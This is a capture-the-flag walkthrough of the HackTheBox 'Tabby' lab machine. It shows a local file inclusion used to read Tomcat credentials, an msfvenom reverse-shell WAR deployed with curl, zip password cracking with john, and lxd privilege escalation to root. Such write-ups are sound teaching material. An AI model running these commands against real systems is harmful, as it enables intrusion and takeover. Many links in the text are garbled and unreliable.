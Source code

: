 ```yaml
---
layout: post
title: HackTheBox Tabby walkthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, linpeas, ssh, lxd, tomcat, lfi, johntheripper]
comments: true
---
```


This is a write up about Tabby box from HackThebox. The machine ip address is 10.10.10.194 and is rated as easy by the community. In short, I exploited a Local File Inclusion (LFI) vulnerability to get the admin web server credentials. I then used those credentials to upload a file on the server and get remote code execution. I brute force a protected file and found the password of an user. The user I had compromise was member of the lxd group wich allowed me to elevate my privileges to root.


![into_card.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/8ef266cc2812400c8683218347a1d3fc)

# Enumeration

As always I started by port enumeration.


![full_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/987987c4fcf945e7aa64b25d8536798e)




![detail_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/1f617483764c4fbba3a9f9b7a24f0afd)



## Port 80
I browser to the main website and found a [LFI](httpshttps://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts//owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion).



![suspicious_url.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/d980c4ba589345328af65147252aa056)



![lfi.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/27fc66fd9f9447228f593b962893566b)

## Port 8080
The seconde HTTP server had a basic installation of Tomcat 9. I did my homework and found Tomcat versions 7 to 9 were vulnerable to remote code execution if I could upload a malicious WAR file into the server.

Tomcat 9 allows users to upload WAR files into the server to  install web applications (see: [remote deploy documentation](httphttps://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts//tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)) but users must be authenticated and have manager rights.
I used the LFI discovered previously to get access to `tomcat-users.xml` configuration file to get users credentials and rights.

![tomcat-users.xml.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/e2780244817345728fc064069c33ee3a)

# Foothold
Tomcat is an open-source implementation of the Java servlet technology and can run jsp files. I used `msfvenom` to create a WAR file containing a malicious jsp document and upload the war file with curl.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOUR-IP-ADDR -f war -o reverseshell.war
curl -v -u 'tomcat':'$3cureP4s5w0rd123!' -T reverseshell.war httphttps://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts//10.10.10.194:8080/manager/text/deploy?path=/reverseshell4444&update=true
```

I used netcat to listen on port 4444 and browser to my newly upload application (httphttps://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts//10.10.10.194:8080/reverseshell4444) to get a shell.


![tomcat_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/e92487ac5644472cb38809675ee6b619)

# Normal user privilege escalation
I found a backup file protected by a password own by ash. 



![found_backup_file.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/c0fbaabf39734fd8aa4c5d8ae1039119)



Any user could read the file so I uploaded it on my machine and brute force the password with [john The Ripper](httpshttps://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts//www.openwall.com/john/).

```bash
/usr/sbin/zip2john 16162020_backup.zip  > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
```

![backup_password.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/36d527c32c9c49d1882a6f9d650e8003)

I used the command `su ash` and log in with the password `admin@it`.

![ash_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/680afd5896ff4d52b1efe8d6e1cf2c93)

# Root Privilege escalation
LXD is Ubuntu’s container manager utilising linux containers. It could be considered to act in the same sphere as docker. LXD group should by no means contain normal users because there is multiple trivial ways to escalate privileges to root.

For the [lxd exploit](httpshttps://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts//www.exploit-db.com/exploits/46978) to work properly I needed to upload a container image into the box since Tabby wasn't connected to the internet.

```bash
wget httpshttps://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts//raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
chmod +x build-alpine
./build-alpine
searchsploit -m linux/local/46978.sh
```

I downloaded '46978.sh' script and the container image from my machine into ash root directory and got a root shell on the container.

```
chmod +x 46978.sh
./46978.sh -f CONATAINER_IMAGE
```

![root_container.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/014af8c4a7fd4c54a6b4895471d07390)

The file system of Tabby is accessible from `/mnt/root/` and I could make any modification on the box since were root on the container. I created a pair of SSH key with `ssh-keygen` command and copy to content of the public key into `/mnt/root/.ssh/authorized_keys` file. 

I SSH into the box as root with the priviate key and got a shell.


![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/5015ddcdcd06472190bc2e70b88565c9)

I like realistic box and this box is definitely one of them. I learned a lot about tomcat and lxd privilege root escalation.

# References
- [Local File Inclusion](httpshttps://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts//owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [lxd privilege escalation exploit](httpshttps://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts//www.exploit-db.com/exploits/46978)
- [Automated Enumaration linux tool](httpshttps://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts//github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
- [Tomcat 9 remote deploy documentation](httphttps://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts//tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)
- [John the ripper](httpshttps://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts//www.openwall.com/john/)
